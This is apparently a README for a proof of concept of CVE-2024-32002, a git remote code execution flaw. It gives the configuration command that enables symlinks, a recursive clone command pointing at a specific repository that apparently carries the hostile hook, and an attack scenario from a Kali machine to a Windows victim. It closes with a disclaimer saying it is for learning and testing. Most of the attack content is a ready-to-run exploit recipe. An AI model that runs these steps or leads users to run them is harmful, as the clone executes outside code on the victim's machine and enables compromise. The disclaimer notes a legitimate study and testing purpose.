 # CVE-2024-32002 PoC
1. You must set up the git's symbolic link option like:
```
git config --global core.symlinks true
```

2. Then exploit CVE-2024-32002 by the following command:
```
git clone --recursive https://github.com/EQSTSeminar/git_rce.git
```

# Attack Scenario
kali(192.168.216.129) --Give remote repository address--> Win(192.168.216.130)
kali(192.168.216.129) <--Git clone && hook script(post-checkout) execution-- Win(192.168.216.130)

# Warning
This repository is not intended to be git clone RCE exploit to CVE-2024-32002. The purpose of this project is to help people learn about this vulnerability, and perhaps test their own applications.
